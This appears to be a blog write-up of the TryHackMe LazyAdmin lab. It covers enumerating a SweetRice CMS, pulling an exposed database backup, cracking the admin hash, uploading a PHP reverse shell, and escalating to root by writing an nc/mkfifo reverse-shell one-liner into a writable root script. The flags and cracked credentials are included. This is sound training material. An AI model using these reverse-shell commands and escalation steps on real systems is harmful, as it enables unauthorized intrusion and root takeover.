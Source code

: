 ```yaml
---
layout: post
title: TryHackMe - LazyAdmin
---
```

Connect with OpenVPN for access to server at 10.10.108.85.
## Enumeration
Let's scan with nmap, but save it to a metasploit db.
```
msfdb reinit
msf5 > db_nmap -sV 10.10.108.85
```
Port 22 (SSH) and Port 80 (HTTP) are open.

No credentials, so let's check out the website being hosted. It's a default splash screen for Apache2.

Let's run dirb to check directory structure of the site.
```
$ dirb http://10.10.108.85 -R
---- Scanning URL: http://10.10.108.85/ ----
==> DIRECTORY: http://10.10.108.85/content/                                                       
+ http://10.10.108.85/index.html (CODE:200|SIZE:11321)                                            
+ http://10.10.108.85/server-status (CODE:403|SIZE:277)                                           
                                                                                                  
---- Entering directory: http://10.10.108.85/content/ ----
==> DIRECTORY: http://10.10.108.85/content/_themes/                                               
==> DIRECTORY: http://10.10.108.85/content/as/                                                    
==> DIRECTORY: http://10.10.108.85/content/attachment/                                            
==> DIRECTORY: http://10.10.108.85/content/images/                                                
==> DIRECTORY: http://10.10.108.85/content/inc/  
```
Navigate to http://10.10.108.85/index.html, and see that the webserver uses Basic CMS SweetRice.

```
$ searchsploit sweetrice
---------------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                                      |  Path
                                                                                                    | (/usr/share/exploitdb/)
---------------------------------------------------------------------------------------------------- ----------------------------------------
SweetRice 0.5.3 - Remote File Inclusion                                                             | exploits/php/webapps/10246.txt
SweetRice 0.6.7 - Multiple Vulnerabilities                                                          | exploits/php/webapps/15413.txt
SweetRice 1.5.1 - Arbitrary File Download                                                           | exploits/php/webapps/40698.py
SweetRice 1.5.1 - Arbitrary File Upload                                                             | exploits/php/webapps/40716.py
SweetRice 1.5.1 - Backup Disclosure                                                                 | exploits/php/webapps/40718.txt
SweetRice 1.5.1 - Cross-Site Request Forgery                                                        | exploits/php/webapps/40692.html
SweetRice 1.5.1 - Cross-Site Request Forgery / PHP Code Execution                                   | exploits/php/webapps/40700.html
SweetRice < 0.6.4 - 'FCKeditor' Arbitrary File Upload                                               | exploits/php/webapps/14184.txt
---------------------------------------------------------------------------------------------------- ----------------------------------------
```
## Exploitation
Reading through some of these text files, we come across 40718 (located at /usr/share/exploitdb/exploits/php/webapps/40718.txt). The file explains that MySQL backups are unprotected and are stored at /inc/mysql_backup.

There is nothing at http://10.10.108.85/inc/mysql_backup. We check back to our output of dirb and see http://10.10.108.85/content/inc. We navigate to http://10.10.108.85/content/inc/mysql_backup. Here lies a single sql file.

It is all condensed, but readable. We are particularly interested in this part:
```
s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";

```
Credentials! Let's crack the password which looks like an MD5 hash.
```
$ hashcat hash /usr/share/wordlists/rockyou.txt -m 0 --force
42f749ade7f9e195bf475f37a44cafcb:Password123     
```
Login to admin console at http://10.10.108.85/content/as with manager:Password123.

Upload php-reverse-shell to ads section of admin panel by directly pasting the script into the field. We name the ad reverse-shell.

Listen in on selected port 1234 on attacker machine.
```$ nc -lvnp 1234```

Navigate to http://10.10.108.85/content/inc/ads/reverse-shell.php where our ad is stored.

Attacker now has an unprivileged shell into remote.
``` bash
$ whoami
www-data
$ cd /home
$ cd itguy
$ ls
$ cat user.txt	
THM{63e5bce9271952aad1113b6f1ac28a07}
$ cat mysql_login.txt
rice:randompass
```
## Privilege Escalation
Let's check what are we able to do as www-data.
```bash
$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl

$ cat backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");

$ ls -al /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29 13:45 /etc/copy.sh
//we have permission

$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f

//no text editors to edit, so we'll do some piping
$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.20.232 5554 >/tmp/f' > /etc/copy.sh
```
In another terminal window:
```
$ nc -lvnp 5554
listening on [any] 5554 ...
```
Run from remote:
```
$ sudo /usr/bin/perl /home/itguy/backup.pl
```
Back at other terminal window:
```
connect to [10.8.20.232] from (UNKNOWN) [10.10.44.194] 60918
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt
THM{6637f41d0177b6f37cb20d775124699f}
```